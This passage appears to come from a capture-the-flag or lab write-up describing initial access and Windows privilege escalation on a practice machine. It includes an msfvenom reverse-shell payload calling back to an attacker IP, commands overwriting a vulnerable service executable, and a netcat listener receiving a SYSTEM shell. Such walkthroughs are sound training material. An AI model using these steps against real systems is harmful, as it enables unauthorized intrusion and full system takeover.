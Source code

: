 ## Access and privilege escalation without Metasploit

We use this [exploit](https://www.exploit-db.com/exploits/39161) to gain access to the machine. Previously we need to copy a `nc.exe` binary to the working directory and create a web server with python to serve the content. After that we need to change the `local ip` in the exploit to match ours. Once all is set up we need a listener to the port indicated in the exploit and we have to run the exploit twice to obtain a shell.

Once into the system we can do manual enumeration or use `winPEAS` to detect the vulnerability previously exploited. In this case we use a `msfvenom` payload to create a malicious binary to substitute the service executable with.
````shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.23.211 LPORT=4444 -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
````
We serve it with the same web server previously used, and download it to the remote system with powershell. Then we stop the service, rewrite the executable, set up a listener for the LPORT selected and start the service again like this

````shell
c:\Users\bill>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

c:\Users\bill>copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe"
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe"
Overwrite C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe? (Yes/No/All): yes
yes
        1 file(s) copied.

c:\Users\bill>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
````
And we obtain a shell with elevated privileges.

````shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.23.211] from (UNKNOWN) [10.10.34.8] 49247
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
````